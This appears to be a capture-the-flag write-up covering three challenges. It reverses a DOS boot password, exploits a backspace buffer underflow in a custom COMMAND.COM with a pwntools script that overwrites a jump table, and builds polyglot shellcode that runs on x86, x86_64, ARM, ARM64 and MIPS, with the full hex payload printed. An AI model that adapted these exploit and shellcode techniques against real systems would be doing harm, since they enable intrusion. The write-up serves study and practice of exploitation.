


# hfs-mbr

    Description:
    We made a military-grade secure OS for HFS members. Feel free to beta test it for us!
    
hfs-mbr contains a customized DOS image that requests a password to be entered before booting the actual operation system. The password needs to be 9 characters long and only consist out of lowercase letters.

## Solution

Following what the first sector of the file loads, a jumptable executing code depending on the entered letters appears at file offset 0x65E.
Most of the addresses associated with letters do nothing, but some letters contain functionality which increases the amount of correct characters if they are called at the correct position in the password string.



    
Listing them all with the constrains they have to fulfill:

```
|---------|---------------------------|-------|
| offset  | equation                  | index |
|---------|---------------------------|-------|
|  0x686  | (e^index) - 0x60 == 0x02  |   7   |
|  0x6CB  | (j^index) - 0x30 == 0x38  |   2   |
|  0x6FA  | (n^index)        == 0x68  |   6   |
|  0x710  | (o^index) + 0x20 == 0x8E  |   1   |
|  0x724  | (p^index)+0x14   == 0x88  |   4   |
|  0x74F  | (r^index)+0x32   == 0xAC  |   8   |
|  0x765  | (s^index)        == 0x73  |   0   |
|  0x77D  | (u^index) - 0x30 == 0x46  |   3   |
|  0x79E  | (w^index) + 0x10 == 0x82  |   5   |
|=====================================|=======|
                     sojupwner
```

Upon entering in the letters in the correct sequence, the DOS system boots
and greets with the first flag `midnight{w0ah_Sh!t_jU5t_g0t_REALmode}`.

# hfs-dos

    Description:
    You don't need a modern 'secure' language when you write bug-free code :) The flag is in FLAG2
    
hfs-dos consists out of exploiting the COM executable providing a very limited shell.
    
## Solution

Extracting the files from the img-file reveals a COMMAND.COM file which contains the functionality of the restrictive DOS-shell that is accessible after entering the correct boot password.

Within the COMMAND.COM the text-input method contains a bug which reduces the pointer-address for the next character by 1 if backspace is pressed but it does not check if there are characters left to remove.



This makes it possible to overwrite arbitrary bytes that appear before the default 4 byte text-input buffer which is at address 0x039c.

COMMAND.COM is also the application responsible for printing the realmode-password file, so my solution was to use the overwrite exploit to change the "FLAG1" filename to "FLAG2" and change the address of the "PONG" command handler within the command jump table to the flag print function at offset 0x174.

```python
def writeToPosition(position, data):
    proc.send('\x7F'*(0x39C-position))
    print("sending to {}".format(hex(0x100f*16+position)))
    proc.send(data)
    print(proc.recvline()) # ensure string is received correctly by the server
    print(proc.recvline())

proc.sendlineafter("[HFS_MBR]>", "sojupwner") # enter password
proc.recvuntil("[HFS-DOS]>") # wait until booted
print("Exploiting")
writeToPosition(0x391-3, "XXX\x74") # overwrite jump table entry for "PONG" command to entry_point
writeToPosition(0x396, "LAG2") # overwrite file name of "FLAG1" to "FLAG2" to read FLAG2 on restarting the entry_point
proc.send("pong")
print(proc.recvline()) # receive flag
print(proc.recvline())
```

Now entering "PONG" reveals the second flag `midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`.

[Solution script](dos-exploit.py)


# polyshell

    Description:
    You might be cool, but are you 5 popped shells cool?
    
This challenge consisted out of writing a program that generates one shellcode that successfully calls one syscall with a given integer value and a pointer to a string on 5 different architectures (x86, x86_64, ARM, ARM64, MIPS-LE) without crashing before.
    
## Solution

Writing the syscall code was a rather easy task (and also avoidable by using pwnlib's shellcraft). The more difficult part was finding the separation code. The first separation which is the hardest was luckily already done https://github.com/ixty/xarch_shellcode/blob/master/stage0/README which surprisingly also are valid instructions on MIPS and thus act as the x86/x86_64 separator in my code.
To split ARM64 from remaining ARM and MIPS the byte sequence XX-00-00-14 works.
And at the end XX-00-00-10 is used to differentiate MIPS from ARM.

Layout of the full shellcode:
```
EB-12-00-32 [x86/x86_64 separator]
    x86:     jmp x86Jump; add byte ptr [edx], dh
    x86_64:  jmp x86Jump; add byte ptr [rdx], dh
    ARM:     andlo r1, r0, #0xb000000e
    ARM64:   orr w11, w23, #0x1f
    MIPS:    andi $zero, $s0, 0x12eb
1E-00-00-14 [ARM64 separator]
    ARM:     strne r0, [r0], #-0x1e
    ARM64:   b #ARM64-SYSCALL
    MIPS:    bnez $zero, 0x7c
0B-00-00-10 [MIPS separator]
    ARM:     andne r0, r0, fp
    MIPS:    b MIPS-SYSCALL
08-10-8F-E2 [MIPS branch delay slot instruction] 
    ARM:     add r1, pc, #8
    MIPS:    sc $t7, 0x1008($s4)
21-00-00-EA [ARM jump]
    ARM:     b #ARM-SYSCALL
x86Jump:
E9-B3-00-00-00 [x86/x86_64 short jump]
    x86:     jmp x86Separator
    x86_64:  jmp x86Separator
## PADDING
// ARM-SYSCALL
## PADDING
// MIPS-SYSCALL
## PADDING
// ARM64-SYSCALL
## PADDING
x86Separator:
31-C0-40-90-74-02-EB-20 [x86 separator]
    x86:     xor eax, eax; inc eax; nop; je x86_64-SYSCALL; jmp x86-SYSCALL
    x86_64:  xor eax, eax; nop; je x86_64-SYSCALL; jmp x86-SYSCALL
// x86_64-SYSCALL
// x86-SYSCALL
```

Executing [the program](polyshell.py) enters the generated shell code and returns the flag.

```
Syscall:   47
Argument1: 9788
String:    steam
========================
EB1200321E0000140B00001008108FE2210000EAE9B300000000000000000000000000000000000000000000000000000000000000000000000000006561093C73742935F8FFA9AF92FF192427482003FCFFA9AFF8FFBD27C3D91924272020032028A003D0FF1924271020030C0101010000000000000000000000008100001080C784D2E80580D2010000D4737465616D000000000000000000000008108FE23C0602E32F70A0E3000000EF737465616D00909090909090909090909090909090909090909090909090909031C040907402EB1F48C7C02F00000048C7C73C260000E806000000737465616D00488B34240F05B82F000000BB3C260000E806000000737465616D008B0C24CD80
[*] Switching to interactive mode

You submit your code as a hex encoded string of max 4096 characters (2048 bytes)

Your shellcode: Results:
x86: Success
x86-64: Success
ARM: Success
ARM64: Success
MIPS: Success

Congratulations! Here is your flag: midnight{Its_shellz_all_the_w4y_d0wn}
```
